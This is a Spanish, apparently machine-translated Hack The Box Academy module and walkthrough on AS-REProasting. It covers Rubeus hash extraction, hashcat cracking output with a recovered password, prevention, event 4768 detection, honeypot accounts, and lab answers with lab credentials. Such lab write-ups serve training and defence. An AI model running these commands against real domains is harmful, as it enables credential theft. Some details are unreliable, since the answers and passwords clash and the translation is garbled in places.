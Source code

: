 # AS-REProasting

# **Descripción**

El `AS-REProasting` El ataque es similar al `Kerberoasting` ataque; Podemos obtener hashshables para cuentas de usuario que tienen la propiedad `Do not require Kerberos preauthentication` activado. El éxito de este ataque depende de la fuerza de la contraseña de la cuenta de usuario que descifraremos.

---

# **Ataque**

Para obtener hashes crujibles, podemos usar `Rubeus` de nuevo. Sin embargo, esta vez, usaremos el `asreproast` acción. Si no especificamos un nombre, `Rubeus` extraerá hash para cada usuario que tenga `Kerberos preauthentication` no requerido:

Asombrado

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC2.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC2.eagle.local (172.16.18.4)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\asrep.txt

```

![](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReq.png)

Una vez `Rubeus` Obtiene el hash para el usuario Anni (el único en el entorno de juegos con preautenticación no requerida), moveremos el archivo de texto de salida a una máquina de ataque de Linux.

Para `hashcat` Para poder reconocer el hash, necesitamos editarlo agregando `23$` después `$krb5asrep$`:

Asombrado

```
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

Ahora podemos usar `hashcat` con el modelo hash (opción -m) `18200` para `AS-REPRoastable` hash. También pasamos un archivo de diccionario con contraseñas (el archivo `passwords.txt`) y guarde la salida de cualquier boletos agrietados con éxito al archivo`asrepcracked.txt`:

Asombrado

```
xnoxos@htb[/htb]$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --forcehashcat (v6.2.5) starting

<SNIP>

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......:$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013d...3d2550Time.Started.....: Thu Dec 8 06:08:47 2022, (0 secs)
Time.Estimated...: Thu Dec 8 06:08:47 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   130.2 kH/s (0.65ms) @ Accel:256 Loops:1 Thr:1 Vec:8Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> bradyHardware.Mon.#1..: Util: 26%Started: Thu Dec 8 06:08:11 2022
Stopped: Thu Dec 8 06:08:49 2022

```

![](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCrack.png)

Una vez `hashcat` descifra la contraseña, podemos imprimir el contenido del archivo de salida para obtener la contraseña de ClearText`Slavi123`:

Asombrado

```
xnoxos@htb[/htb]$ sudo cat asrepcrack.txt$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550:Slavi123
```

![](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCracked.png)

---

# **Prevención**

Como se mencionó anteriormente, el éxito de este ataque depende de la fuerza de la contraseña de los usuarios con `Do not require Kerberos preauthentication` configurado.

En primer lugar, solo debemos usar esta propiedad si es necesario; Una buena práctica es revisar las cuentas trimestralmente para garantizar que no hayamos asignado esta propiedad. Debido a que esta propiedad a menudo se encuentra con algunas cuentas de usuario regulares, tienden a tener contraseñas más fáciles de obtener que las cuentas de servicio con SPN (las de Kerberoast). Por lo tanto, para los usuarios que requieren esto configurado, debemos asignar una política de contraseña separada, que requiere al menos 20 caracteres para frustrar los intentos de agrietamiento.

---

# **Detección**

Cuando ejecutamos a Rubeus, un evento con ID `4768` fue generado, lo que indica que un `Kerberos Authentication ticket` fue generado:

![](https://academy.hackthebox.com/storage/modules/176/A2/AsrepDetect.png)

La advertencia es que AD genera este evento para cada usuario que se autentica con Kerberos en cualquier dispositivo; Por lo tanto, la presencia de este evento es muy abundante. Sin embargo, es posible saber de dónde se autenticó el usuario, que luego podemos usar para correlacionar buenos inicios de sesión conocidos contra posibles extracciones de hash malicioso. Puede ser difícil inspeccionar direcciones IP específicas, especialmente si un usuario se mueve por las ubicaciones de la oficina. Sin embargo, es posible analizar la VLAN particular y alerta sobre cualquier cosa fuera de él.

---

# **Mielero**

Para este ataque, un `honeypot user` es una excelente opción de detección para configurar en entornos AD; Este debe ser un usuario sin uso/necesidad real en el entorno, de modo que no se realicen intentos de inicio de sesión regularmente. Por lo tanto, cualquier intento de realizar un inicio de sesión para esta cuenta es probablemente maliciosa y requiere inspección.

Sin embargo, supongamos que el usuario de honeypot es la única cuenta con `Kerberos Pre-Authentication not required`. En ese caso, puede haber mejores métodos de detección, ya que sería muy obvio para los actores de amenaza avanzada de que es un usuario de honeypot, lo que resulta en que eviten las interacciones con él. (Anteriormente escuché de una organización que necesitaba una de estas cuentas (relacionadas con la aplicación) que la "seguridad a través de la oscuridad" detrás de tener solo una de estas cuentas puede salvarlas, ya que los atacantes evitarán perseguirlo pensando que es un usuario de honeypot. Si bien puede ser cierto en algunos casos, no debemos dejar que un vistazo a la esperanza dicte el estado de seguridad del medio ambiente).

Para hacer un buen usuario de honeypot, debemos asegurarnos de lo siguiente:

- La cuenta debe ser un usuario relativamente antiguo, idealmente uno que se haya vuelto falso (los actores de amenaza avanzados no solicitarán boletos para nuevas cuentas porque probablemente tengan contraseñas seguras y la posibilidad de ser un usuario de honeypot).
- Para un usuario de la cuenta de servicio, la contraseña debe tener más de dos años. Para los usuarios regulares, mantenga la contraseña para que no sea mayor de un año.
- La cuenta debe tener inicios de sesión después del día en que se cambió la contraseña; De lo contrario, se vuelve evidente si el último día de cambio de contraseña es el mismo que el inicio de sesión anterior.
- La cuenta debe tener algunos privilegios asignados; De lo contrario, no será interesante intentar descifrar el hash de su contraseña.

Si volvemos a nuestro entorno de juegos y configuramos el "SVC-IAM 'del usuario (presumiblemente una antigua cuenta de la cuenta IAM) con las recomendaciones anteriores, entonces cualquier solicitud para obtener un TGT para esa cuenta debe ser alertada. El evento recibido se vería así:

![](https://academy.hackthebox.com/storage/modules/176/A2/honeypot2.png)

### **Preguntas y respuestas**

1) Conéctese al objetivo y realice un ataque de reprovisión. ¿Cuál es la contraseña para el usuario anni?

Comencemos por ejecutar el ataque de tostado asignado para extraer hashes para los usuarios que no requieren la preautenticación de Kerberos.

Copiar

```
.\Rubeus.exe asreproast /outfile:asrep.txt
```

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FKVyM1sIQabuZlPzoagJL%252FScreenshot%2811%29.png%3Falt%3Dmedia%26token%3D8cc45b1a-bd4b-438d-891b-f74258a99d3f&width=768&dpr=4&quality=100&sign=f4c96f04&sv=2)

A continuación, transfiera el archivo asrep.txt a nuestra máquina de ataque.

Copiar

```
smbclient \\\\10.129.204.151\\Share -U eagle/administrator%Slavi123
```

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FkwPZM4hSVxlW1GU3Hjkg%252FScreenshot%2812%29.png%3Falt%3Dmedia%26token%3D7095ae1a-a6c5-43cf-a1f3-7e018ae17a8d&width=768&dpr=4&quality=100&sign=203445d7&sv=2)

Ahora, usemos hashcat para descifrar estos tickets y guardar la salida en el archivo asrepcrack.txt.

Copiar

```
sudo hashcat -m 18200 -a 0 asrep.txt rockyou.txt --outfile asrepcrack.txt --force
```

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FxS2SeSahsA5L1Nev3alu%252FScreenshot%2813%29.png%3Falt%3Dmedia%26token%3D1f2d6fb2-c006-4828-9810-35e3778656e2&width=768&dpr=4&quality=100&sign=89f955cb&sv=2)

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252F6rVak4wtcLF26VQcPsua%252FScreenshot%2814%29.png%3Falt%3Dmedia%26token%3Dd828175b-a5bb-4ca3-b8fb-5ca71bc942f2&width=768&dpr=4&quality=100&sign=b7312cb7&sv=2)

Respuesta: Shadow

2) Después de realizar el ataque como la reprimenda, conéctese a DC1 (172.16.18.3) como 'htb-student: htb_@cademy_stdnt!' y mire el espectador de registros en eventos. ¿Cuál es el TargetSid del usuario de SVC-IAM?

Conectemos a DC1 (172.16.18.3) desde nuestra máquina de Windows con escritorio remoto.

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FRxu02YPLX5W9rJRxIpr9%252FScreenshot%2815%29.png%3Falt%3Dmedia%26token%3D8058cc1b-65e5-43cb-b2fb-6e358502a669&width=768&dpr=4&quality=100&sign=c0cbd68&sv=2)

A continuación, abra el visor de eventos y filtre por ID de evento 4768.

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252F1wU90KKIVs1efGOoBAfM%252FScreenshot%2816%29.png%3Falt%3Dmedia%26token%3Dfd7ad591-3cc1-4e3b-a00c-c57d73d71167&width=768&dpr=4&quality=100&sign=d591fa40&sv=2)

Respuesta: S-1-5-21-1518138621-4282902758-7524445584-3103